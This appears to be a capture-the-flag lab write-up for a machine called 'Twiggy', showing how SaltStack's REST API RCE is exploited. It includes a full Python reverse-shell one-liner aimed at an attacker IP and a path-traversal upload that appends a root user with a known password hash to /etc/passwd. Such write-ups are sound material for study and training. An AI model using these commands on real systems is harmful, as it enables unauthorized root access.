










# Twiggy

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.62 -t full`

`nmapAutomator.sh -H 192.168.134.62 -t vulns`



### Port 80

Mezzanine is running.



### Port 8000

The SaltStack Salt REST API is running.



## Exploitation

SaltStack &lt; 3000.2, &lt; 2019.2.4, 2017.\*, 2018.\* is vulnerable to an RCE vulnerability.

Exploit from: [https://www.exploit-db.com/exploits/48421](https://www.exploit-db.com/exploits/48421)



We can try to execute a reverse shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.134",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

However, this does not work \(presumably because of the firewall\).

We can, however, read arbitrary files, including `passwd` and `shadow`.





We can also write arbitrary files. To add our own root user to `/etc/passwd`:

```bash
echo "root2:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> passwd
```

Note that this hash corresponds to our custom password, `mypass`.

```bash
$ openssl passwd mypass                                                    
bWBoOyE1sFaiQ
```

Upload the modified file: `python3 48421.py --master 192.168.134.62 --upload-src passwd --upload-dest ../../../../../etc/passwd`



Check that our user was correctly added:



Now, using the `root:mypass` credentials, we can SSH into the server as root. This works because password authentication is enabled.





